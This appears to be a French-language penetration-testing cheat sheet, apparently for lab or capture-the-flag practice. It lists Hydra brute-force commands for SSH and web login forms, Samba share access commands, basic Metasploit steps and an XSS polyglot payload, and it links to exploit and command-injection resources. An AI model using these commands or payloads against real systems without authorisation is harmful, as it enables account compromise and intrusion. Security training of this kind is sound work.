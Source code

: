 > **SSH**  
`hydra -l <UTILISATEUR> -P <WORDLIST> <IP> -t 64 ssh`

> **Formulaire web *POST***  
`hydra <UTILISATEUR> <WORDLIST> <IP> http-post-form "<CHEMIN>:<IDENTIFIANT>:<REPONSE_INVALIDE>"`  
*Exemple :*  
`hydra -l <UTILISATEUR> -P <WORDLIST> <IP> http-post-form "/:username=^USER^&password=^PASS^:F=Your username or password is incorrect"`

## Samba

> **Accès**  
`smbclient //<IP>/<PARTAGE>`

> **Téléchargement**  
`smbget -R smb://<IP>/<PARTAGE>`

## Exploit

[Exploit Database](https://www.exploit-db.com/)

### MetaSploit
`msfconsole`  
`search <KEYWORD>`  
`use <NOMBRE>`  
`options`  
`set <OPTION>`  
`run`  

## Cross-Site scripting

### XSS Polyglot Payload
`jaVasCript:/*-/*'/*'/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e` (Remplacer les ' par \`)

## Injection de commande

[Cheat Sheet ](https://github.com/payloadbox/command-injection-payload-list)